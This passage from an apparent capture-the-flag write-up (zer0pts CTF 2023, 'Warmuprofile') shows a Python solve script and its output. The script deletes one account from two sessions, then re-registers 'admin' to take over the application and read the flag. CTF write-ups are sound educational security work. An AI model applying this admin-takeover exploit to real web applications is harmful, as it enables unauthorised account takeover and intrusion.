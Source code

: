 ```python
    }
    print(f'[*] Registering new account "{username}" in session 1')
    exploit.sendRequest(session1, 'POST', '/register', registerData)
    
    # Login to the account with 2 different session
    loginData = {
        'username': username,
        'password': password
    }
    print(f'[*] Logging in to new account "{username}" in session 1')
    exploit.sendRequest(session1, 'POST', '/login', loginData)
    print(f'[*] Logging in to new account "{username}" in session 2')
    exploit.sendRequest(session2, 'POST', '/login', loginData)

    # Delete the first and second session's user
    deleteUserEndpoint = f'/user/{username}/delete'
    print(f'[*] Deleting new account "{username}" in session 1')
    exploit.sendRequest(session1, 'POST', deleteUserEndpoint)
    print(f'[*] Deleting new account "{username}" in session 2')
    exploit.sendRequest(session2, 'POST', deleteUserEndpoint)

    # Register our new "admin" user as the `Users` table is deleted
    overwriteAdminUserData = {
        'username': 'admin',
        'password': 'admin',
        'profile': 'never_gonna_give_you_up'
    }
    print(f'[*] Overwriting old admin user in session 1')
    overwriteAdminUserResponse = exploit.sendRequest(session1, 'POST', '/register', overwriteAdminUserData)
    if 'user exists' in overwriteAdminUserResponse:
        print(f'[-] Failed to overwrite the admin user...')
        exit()

    # Get the flag as the new admin user
    print(f'[*] Getting the flag in session 1')
    flagResponse = exploit.sendRequest(session1, 'GET', '/flag')
    if 'The flag is:' not in flagResponse:
        print(f'[-] Failed to get the flag...')
        exit()

    soup = BeautifulSoup(flagResponse, 'html.parser')
    flag = soup.code.get_text()
    print(f'[+] Flag: {flag}')
```

```shell
┌[siunam♥Mercury]-(~/ctf/zer0pts-CTF-2023/web/Warmuprofile)-[2023.07.16|13:56:37(HKT)]
└> python3 solve.py
[*] Registering new account "foo" in session 1
[*] Logging in to new account "foo" in session 1
[*] Logging in to new account "foo" in session 2
[*] Deleting new account "foo" in session 1
[*] Deleting new account "foo" in session 2
[*] Overwriting old admin user in session 1
[*] Getting the flag in session 1
[+] Flag: nek0pts{FAKE_FLAG}
```
